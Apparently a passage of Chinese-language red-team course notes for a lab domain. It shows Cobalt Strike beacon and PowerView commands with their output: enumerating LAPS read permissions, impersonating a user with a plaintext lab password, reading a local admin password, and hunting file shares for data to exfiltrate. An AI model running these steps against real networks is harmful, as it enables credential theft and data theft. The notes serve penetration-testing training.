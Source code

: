  Size     Type    Last Modified         Name
 ----     ----    -------------         ----
          dir     02/19/2021 14:35:19   $Recycle.Bin
          dir     02/10/2021 03:23:44   Boot
          dir     10/18/2016 01:59:39   Documents and Settings
```

## powerview
如果当前账号没有 LAPS cmdlets方法集，powerview的ms-Mcs-AdmPwd和ReadPropery 也可以等价枚举出LAPS密码
```
beacon> powershell Get-DomainObjectAcl -SearchBase "LDAP://OU=Workstations,DC=dev,DC=cyberbotic,DC=io" -ResolveGUIDs | ? { $_.ObjectAceType -eq "ms-Mcs-AdmPwd" -and $_.ActiveDirectoryRights -like "*ReadProperty*" } | select ObjectDN, SecurityIdentifier

ObjectDN                                              SecurityIdentifier
--------                                              ------------------
OU=Workstations,DC=dev,DC=cyberbotic,DC=io            S-1-5-21-3263068140-2042698922-2891547269-1125
CN=WKSTN-1,OU=Workstations,DC=dev,DC=cyberbotic,DC=io S-1-5-21-3263068140-2042698922-2891547269-1125
CN=WKSTN-2,OU=Workstations,DC=dev,DC=cyberbotic,DC=io S-1-5-21-3263068140-2042698922-2891547269-1125

beacon> powershell ConvertFrom-SID S-1-5-21-3263068140-2042698922-2891547269-1125
DEV\1st Line Support

beacon> make_token DEV\jking Purpl3Drag0n
beacon> powershell Get-DomainObject -Identity wkstn-2 -Properties ms-Mcs-AdmPwd

ms-mcs-admpwd 
------------- 
P0OPwa4R64AkbJ
```

课本捎带提到了[LAPSToolkit](https://github.com/leoloobeek/LAPSToolkit)这个工具也可以做类似上面的操作



# Data Hunting & Exfiltration

数据通常会存储在共享文件夹、数据库、SharePoint、内部 wiki 等的各种位置.

# File Shares

```Find-DomainShare```查找所有共享目录，加```-CheckShareAccess ```表示可以访问的
```
beacon> powershell Find-DomainShare -ComputerDomain cyberbotic.io -CheckShareAccess

Name     Type Remark              ComputerName      
----     ---- ------              ------------      
data$       0                     dc-1.cyberbotic.io

beacon> ls \\dc-1.cyberbotic.io\data$

 Size     Type    Last Modified         Name
 ----     ----    -------------         ----
 17kb     fil     03/25/2021 12:54:11   63ec08038c04ac60dab340ee9569e690dataMar-25-2021.xlsx
 214kb    fil     03/25/2021 13:02:53   Apple iPhone 8.ai
 1mb      fil     03/25/2021 13:02:55   Boeing 787-8 DreamLiner Air Canada.ai
 540kb    fil     03/25/2021 13:02:54   Caterpillar 345D L.ai
 829kb    fil     03/25/2021 13:02:55   Ducati 1098R (2011).ai
 895kb    fil     03/25/2021 13:02:55   Volkswagen Caddy Maxi (2020).ai
```

# Internal Web Apps

[EyeWitness](https://github.com/FortyNorthSecurity/EyeWitness)这个工具可以从内部网络应用中截取数据截图等信息，主要用于内部网络应用的信息收集
```